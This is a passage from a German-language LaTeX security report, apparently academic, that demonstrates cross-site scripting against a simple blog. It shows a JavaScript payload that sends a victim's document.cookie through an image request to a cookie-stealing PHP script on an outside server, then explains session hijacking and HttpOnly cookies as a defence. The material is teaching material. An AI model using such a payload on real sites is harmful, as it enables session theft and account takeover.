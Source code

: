 Im vorliegenden Fall handelt es sich natürlich nur um einen harmlosen "Spass" - schließlich hätte der Angreifer ja auch gleich "This is the evil script" als Blog-Text eintragen können. Und da das Blog über nur einen sehr eingeschränkten Funktionsumfang verfügt, gibt es auch nicht viel zu zerstören oder auszuspionieren. Lediglich die Session-ID, welche in einem Cookie abgespeichert wird, stellt ein mögliches Ziel für tatsächlich gefährliche Angriffe dar - nämlich für einen sogenannten Session Hijacking-Angriff.

\subsubsection{Tatsächlicher Angriff: Session Hijacking}

Nehmen wir, der Angreifer erweitert sein Script, und fügt dabei zwei Befehle hinzu, die den Inhalt des Cookies an ein Skript auf dem Webserver des Angreifers schicken (zu Demonstrationszwecken gibt das Skript den Inhalt des Cookies auch noch als Teil der Website aus):

\begin{lstlisting}
document.write('This is the evil script!');

document.write('Cookie contents: ' + escape(document.cookie));
document.write('<img src=\'http://web.student.tuwien.ac.at/~e9902433/steal_the_sessionID.php?s='+escape(document.cookie)+'\' />');
\end{lstlisting}

Das Skript \url{steal_the_sessionID.php} kann dann die SessionID aus dem Cookie extrahieren und der Angreifer hätte dann über die SessionID Zugriff auf die Session des Opfers. Die Website könnte dann nicht mehr zwischen dem Opfer und dem Angreifer unterscheiden und der Angreifer hätte Zugriff auf eventuell gespeicherte private Daten des Opfers, etc.

\subsubsection{HttpOnly?}

Seit einigen Jahren existiert gegen diese Art des Angriffs eine Sicherheitsvorkehrung, die das Stehlen von Cookie-Daten verhindern soll. Beim Setzen des Cookies kann der Webserver diesen als "HttpOnly" kennzeichnen. Dies ist ein Hinweis für den Browser, dass dieser Wert einem clientseitigen Script nicht zugänglich gemacht werden darf. Moderne Browser verstehen diese Hinweis und schützen daher die SessionID vor dem oben beschriebenen Session Hijacking-Angriff.

